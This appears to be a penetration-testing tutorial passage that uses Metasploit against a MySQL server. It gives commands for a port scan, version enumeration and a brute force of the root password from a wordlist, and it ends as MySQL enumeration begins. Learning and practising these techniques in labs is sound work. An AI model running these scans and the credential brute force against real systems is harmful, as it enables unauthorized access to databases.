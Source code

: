 Confirm port 3306 is open on the target by performing a port scan.

```
search portscan
use auxiliary/scanner/portscan/tcp
show options
run
```

Identify the version of MySQL that's running.

[MySQL Server Version Enumeration](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_version/)

MySQL 服务器版本枚举

枚举 MySQL 服务器的版本。

```
search type:auxiliary name:mysql
use auxiliary/scanner/mysql/mysql_version
show options
run 
```

When it comes down to further enumeration of MySQL, we need some access to the database server. And in order to obtain that access, we can either find an exploit for this version of MySQL. However, there isn't any active exploit that can allow us to target this version. So what we'll need to do is perform a brute force in order to identify whether we can find any legitimate credentials that can provide us with some form of access to the MySQL database server.

When we talk about MySQL and the credentials that we are pretty much going to be after, that is going to be the root credentials. Because the root user on any system has all privileges. And so instead of performing a brute force for usernames, we can automatically set the username to root and then try and see whether we can find any passwords for the root user.

[MySQL Login Utility](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_login/)

MySQL 登录实用程序

该模块简单地查询 MySQL 实例以获取特定用户/密码（默认为 root 和空白）。

```
search mysql_login
use auxiliary/scanner/mysql/mysql_login
show options
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run 
```

Perform some MySQL enumeration.

```
search mysql_enum
```

It falls under the Admin subdirectory under auxiliary modules, which means in order to utilize it, we require credentials, which in this case, we already have.
